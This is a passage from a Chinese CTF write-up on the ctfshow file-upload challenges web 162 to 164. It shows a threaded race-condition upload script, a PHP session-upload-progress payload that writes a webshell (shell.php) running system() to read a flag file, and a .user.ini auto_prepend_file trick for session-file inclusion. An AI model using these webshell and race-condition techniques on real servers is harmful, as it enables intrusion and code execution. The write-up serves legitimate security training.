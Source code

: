 ```python
        else:
            print('error：', r.status_code)
        # time.sleep(1)  # 为了避免发送请求过快，可以适当增加间隔时间

# 创建并启动线程
threads = []
for _ in range(5):  # 创建5个上传线程
    t = threading.Thread(target=upload_file)
    t.start()
    threads.append(t)

for _ in range(5):  # 创建5个检查线程
    t = threading.Thread(target=check_file)
    t.start()
    threads.append(t)

# 等待所有线程完成
for t in threads:
    t.join()

```
脚本跑完就写入shell.php了，木马内容可以在脚本里修改
![shell](https://the0n3.top/medias/show-upload/19.png)

例如直接查看flag，注意转义
```
'PHP_SESSION_UPLOAD_PROGRESS': '<?php file_put_contents("shell.php","<?php system(\'tac /var/www/html/flag.php\');?>");?>',
```

![flag](https://the0n3.top/medias/show-upload/20.png)

这题看别的师傅是使用vps，把ip转成单个数字避免.的出现来做的

## web 163  条件竞争

这题如果上传上一题的test.png，以及.user.png，再去掉test.png的.png，把.user.ini修改为.user.ini时，页面会提示没有test这个文件，无法包含

url/test，到了首页，url/.user.ini会下载.user.ini，说明.user.ini还在，那么可以省略掉test.png这一步，让.user.ini直接给当前目录所有文件包含session文件


```ini
GIF89a
auto_prepend_file=/tmp/sess_Cola
```

上传.user.ini后，再次使用上题的脚本，发现这次跑了很久，不过还好，还是出来了

## web 164 png二次渲染

参考[大佬文章](https://www.cnblogs.com/sen-y/p/15579078.html#autoid-11-0-0)，又学到了
